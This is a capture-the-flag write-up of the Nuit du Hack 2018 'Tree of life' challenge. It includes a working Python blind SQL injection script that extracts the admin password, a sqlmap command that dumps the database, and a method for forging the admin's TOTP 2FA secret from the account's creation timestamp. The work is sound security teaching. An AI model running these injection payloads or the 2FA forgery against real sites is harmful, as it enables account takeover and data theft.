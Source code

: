 # Tree of life

"Tree of life" was a 300-point challenge at **Nuit du Hack 2018**, that I flagged with [Geluchat](https://twitter.com/Geluchat). It was quite original, and thus quite fun to solve. This writeup comes quite late as I needed to access the challenge website again to write something proper; thanks a lot [sybix](https://twitter.com/4sybix2) for putting it online again! It is our last writeup related to NDH16 (*finally!*).

## Challenge description

```
Access the admin's secret page on https://treeoflife.wargame.rocks
```

> Note: for this writeup, we are not working on the original domain used at la Nuit du Hack, but on https://treeoflife.hzv-ep.sybix.fr.

## Discovery

We are greeted by the following page:

![Greetings](images/greetings.png)

Let's start by following the steps outlined here.

Once we finish **step 2**, we need to scan a QR Code to activate 2FA (*as usual*):

![2FA activation](images/2fa.png)

Decoding the QR Code, we can see it has the following value:

```
otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TGMJSGQ3DQMRS&amp;issuer=treeoflife.hzv-ep.sybix.fr
```

We notice that `secret` looks like a base32-encoded string (*that was training for* [Fleet](https://inshallhack.org/cancer_ndh16/)). Let's try to decode it:

```bash
~$ echo -n "GE2TGMJSGQ3DQMRS" | base32 -d
1531246822
```

This could be a random integer, but it definitely looks like a Unix time stamp. Using [unixtimestamp](https://www.unixtimestamp.com/index.php), we can see that it corresponds to **07/10/2018 @ 7:03pm (UTC)**; that's about the time we created our account on the platform (*for this writeup, anyway :-)*).

To make sure we're not making too many assumptions here, we try the first three steps again with a new account. I'll skip the details here, but it convinces us that we're on the right path.

Now that 2FA is set up for our account, we log out and log in once more, and try to access the **secret page**… That tells us the following:

![lolnope](images/fucku.png)

Drat. Welp, what else can we do then? There's one page we haven't visited yet, the **search page**. After playing around with it a little bit, we figure out that it's vulnerable to **blind SQL injection**.

## Exploiting the SQLi

We craft the following script to extract the admin password:

```python
# -*- coding: utf8 -*-
import requests

cookies        = {'sessionid': 'xxxxxxxxxxxxxxxxxxxxxxxx'}
url_prefix     = "https://treeoflife.wargame.rocks/users/search/?username="
payload_prefix = "userwhodoesntexist' or (id = 1 and substr((select password), "
possible_chars = [chr(c) for c in range(32, 127)]
password       = ""


while True:
  for char in possible_chars:

    payload = url_prefix + payload_prefix + str(len(password) + 1) + ", 1) = '"
    payload += char + "') or '1' = '2"

    result = requests.get(payload, cookies=cookies).text

	# John is the name of the admin account, which we can see on the search page
    if 'John' in result:
      password += char
      print password
      break
  else:
    break

print(password)
```

This outputs what seems to be a hash: **393F0376EE939FD25B0999D62AD7EA7E**. By googling it, we figure out that it is the MD5 hash of **"igothacked"**. With this, we're able to log in as the admin!

![But that's not enough](images/but.png)

But unfortunately, we're still not able to read the flag: we need 2FA!

## Stealing the admin's TOTP secret key

During the discovery, we deduced that the **TOTP secret** used to generate the 2FA tokens was the **Unix time stamp of the joining date of the user**. Therefore, all that's left is to dump the admin's joining date on the website.

To be completely honest, we were not feeling up to the task at la Nuit du Hack (*it was, after all, 4 am*), so we resorted to `sqlmap` to get this piece of information:

```bash
# Totally not overkill command
~$ python sqlmap.py -u "https://treeoflife.wargame.rocks/users/search/?username=" --dump --risk 3 --level 3  --threads=10
...
[04:49:26] [INFO] retrieved: "2018-06-07 15:08:20.680000","","John","1","1","...
...
```

Gotcha! Converting **2018-06-07 15:08:20.680000** to a Unix time stamp, we get: **1528384100**, which is **GE2TEOBTHA2DCMBQ** once base32-encoded.

We use this to generate a QR Code containing the following link: `otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TEOBTHA2DCMBQ&amp;issuer=treeoflife.hzv-ep.sybix.fr`:

![Admin 2FA QR Code](frame.png)

We scan it using **Google Authenticator**, input the token it generates on the **secret** page and…

![Flag](flag.png)

**Flagged!**


**Flag: ndh16_dc68a06c0034e6974b39a96d69f1e184f3d28982**

## Wrapping up

This challenge was pretty fun, it's not often that we get to play with 2FA tokens. On a personal note, I'm glad to be **finally** done with my Nuit du Hack writeups. I expected to publish some writeups for Akerva's challenge as well, but they posted the whole solution on their website.

If I'm being perfectly honest, this writeup was quite lazy, but I hope you enjoyed the read anyway!